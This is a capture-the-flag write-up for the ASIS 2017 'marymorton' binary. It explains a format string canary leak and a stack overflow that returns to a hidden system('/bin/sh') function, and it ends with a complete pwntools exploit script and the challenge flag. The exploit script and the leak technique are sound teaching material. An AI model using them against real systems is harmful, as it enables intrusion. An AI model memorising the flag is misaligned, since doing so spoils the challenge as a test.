 ```yaml
---
layout: post
title: Asis 2017 marymorton
date: 2025-07-04 16:32:02 +0300
categories: Nightmare-series ret2system
tags: nightmare buffer-overflow x64 leak-canary ROP stack-canary ret2win
---
```


## Information 
- Category: Pwn
- Points: 43

## Description
> Mary surprises Sherlock with her knowledge and insight into his character, but she had a very obvious vulnerability which Sherlock exploited it, although it was very painful for him!

## Write-up
Running the program produces the following output:
```bash
Welcome to the battle !
[Great Fairy] level pwned
Select your weapon
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
```
The program allows you to select a vulnerability to exploit — which is pretty cool!



Now let’s get the basic info from the program:
```bash
checksec --file=./mary_morton
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```
The program has some **mitigations** like **NX enabled** and a **stack canary**. Keep this in mind.
> **Stack canary** is present, which protects against simple stack overflows.
**NX (No eXecute)** is enabled, so we can't execute code on the stack.
{: .prompt-info}

There are **two functions** that can be called based on your **choice**:
<img src="/images/marymorton/rev-function.png" style="border-radius: 14px;">

The first function has a format string vulnerability — but how?
You can see that it takes your input and passes it directly to ```printf``` without a **format string**.
This makes it vulnerable! You can use it to **read** or **write** memory, which makes it a very powerful vulnerability.
<img src="/images/marymorton/rev-fmtstr.png" style="border-radius: 14px;">


> **Leak memory** using format specifiers like **%x**, **%s**, or **%p**.
{: .prompt-tip}
> **Write to memory** using **%n**
{: .prompt-info}



The second function has a **stack buffer overflow** vulnerability.
It uses ```read()``` with a size of ```0x100```, which allows you to overflow the buffer and control the return address.
This means you can overwrite the return address and **redirect execution wherever you want**.
<img src="/images/marymorton/rev-buffoverflow.png" style="border-radius: 14px;">

I found the ```system``` function in the **GOT/PLT** section — and that’s very important!
Since the binary is **stripped** and has **no PIE**, we can use its fixed address later in the exploit.
But wait — ```system``` isn’t used in ```main```, so why is it in the program?
You can use tools like ```xref``` to see where it’s called from.
And boom — there’s a **hidden function** that runs ```system("/bin/sh")``` and gives a shell!
Now, we just need to **call it**.
<img src="/images/marymorton/hidden-func.png" style="border-radius: 14px;">

To bypass the **stack canary**, we need two things:

- The **offset** from the buffer to the canary and return address

- The **leaked canary value**

Since we have a **format string vulnerability**, we can leak the canary from the stack.
Once we know the offset and the canary value, we can **overwrite the stack safely**, pass the canary check, and then **return to the hidden function** that gives us a shell.


> Use ```pwndbg``` to find the offset between the buffer, the canary, and the return address.
{: .prompt-tip}

To calculate the offset between the buffer and the canary:

- The **buffer** is at ```rbp - 0x98```

- The **canary** is at ```rbp - 0x10```

So we need ```0x98 - 0x10 = 0x88``` **bytes** to reach the canary.
Then, we need **8 more bytes** to reach the return **address** (after the canary).
<img src="/images/marymorton/layout-bugbof.png" style="border-radius: 14px;">

find the **canary’s offset in memory**, set a breakpoint at the start of the ```fmtstrBug``` function — specifically at ```0x4008f6```:
```nasm
   0x4008ef    SUB    RSP,0x90
          
          
   0x4008f6    MOV    RAX,qword ptr FS:[0x28]
          

```
> This line moves the canary value from ```FS:[0x28]``` into ```RAX```.
{: .prompt-info}

Then step forward using ```ni``` (next instruction):
```bash
pwndbg> ni
0x0000000000400903 in ?? ()
.
.
.
pwndbg> p/x $rax
$2 = 0xb145368bea2f6300
pwndbg> 
```
Now, set a breakpoint at the ```printf``` call inside the ```fmtstrBug``` function to find the **canary’s offset in the stack**:
```bash
pwndbg> c
Continuing.
Breakpoint 1, 0x0000000000400944 in ?? ()
*RIP  0x400944 ◂— call printf@plt
► 0x400944    call   printf@plt
```

Then check the stack: 
```
pwndbg> stack
00:0000│ rdi rsi rsp 0x7fffffffde80 ◂— '%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.\n'
...
11:0088│-008 0x7fffffffdf08 ◂— 0xb145368bea2f6300  ← This is the canary!
```
Then continue to see the actual output from ```printf```:
```
pwndbg> c
Continuing.
7FFFFFFFDE80.35.7FFFFFFFDF20.0.0.2E586C25...
```
> 1st rdi | 2nd rsi | 3rd rdx | 4th rcx | 5th r8 | 6th r9 | then stack
{: .prompt-tip}
The **canary** is located at ```0x88``` bytes above the base of the buffer on the stack:
```
 11:0088│-008 0x7fffffffdf08 ◂— 0xb145368bea2f6300  ← canary
```
Since each step in a format string leak like ```%lx``` reads **8 bytes** (64 bits), we calculate:
```
0x88 / 0x8 = 17
```
So it takes **17 stack slots** to reach the canary after the format string arguments begin.

In x64, the first **6 arguments** to ```printf()``` are passed in registers (```rdi```, ```rsi```, ```rdx```, etc.). Format string values start on the stack **after those**.

Final result:
```
17 (stack positions to canary) + 6 (register args) = 23
```
So the **canary is at offset** ```%23$lx``` in the format string!
```bash
Welcome to the battle !
[Great Fairy] level pwned
Select your weapon
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
2
%23$lX
EF2CFA8399681700
```

## Exploit

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./mary_morton")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1000)

    return r

def leakCanary(r):
    r.recvuntil("Exit the battle \n")
    r.sendline(b"2")
    
    fmtstr = b"%23$lX"
    
    r.sendline(fmtstr)
    canary = int(r.recvline().decode(),16)

    log.success(f"Canary Leak:{hex(canary)}")

    return canary

def main():
    r = conn()

    hiddenFunc = 0x4008da
    ret = 0x400659
    canary = leakCanary(r)

    payload = b"A"*0x88
    payload+= p64(canary)
    payload+= b"B"*0x8
    payload+= p64(ret)
    payload+= p64(hiddenFunc)

    r.sendline(b"1")
    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```

## Flag
Flag: ```ASIS{An_impROv3d_v3r_0f_f41rY_iN_fairy_lAnds!}```
